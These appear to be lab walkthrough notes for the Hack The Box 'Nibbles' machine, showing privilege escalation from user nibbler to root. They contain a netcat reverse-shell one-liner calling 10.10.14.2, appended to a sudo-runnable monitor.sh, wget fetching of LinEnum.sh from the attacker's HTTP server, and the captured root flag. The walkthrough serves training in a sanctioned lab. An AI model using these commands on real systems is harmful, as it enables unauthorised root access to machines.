 * Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the `personal.zip` file and see a file called `monitor.sh`.
```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```
* The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user and writeable.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```
* Let us put this aside for now and pull in [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks.
	* First, download the script to your local attack VM or the Pwnbox and then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.
```shell-session
6165@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```
* Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script. If successful, we will see a 200 success response on our Python HTTP server.
* Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it. 
```shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
* The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges.
	* If we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a reverse shell one-liner.
```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```
* The contents appended to the end. 
	* It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We ==only append to the end of the file (after making a backup copy of the file)== to avoid overwriting it and causing a disruption.` Execute the script with `sudo`:
```shell-session
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```
* Catch the root shell on our waiting `nc` listener:
```shell-session
6165@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```
* Grab root flag:
```shell-session
6165@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# cd /root
# ls
root.txt
# cat root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```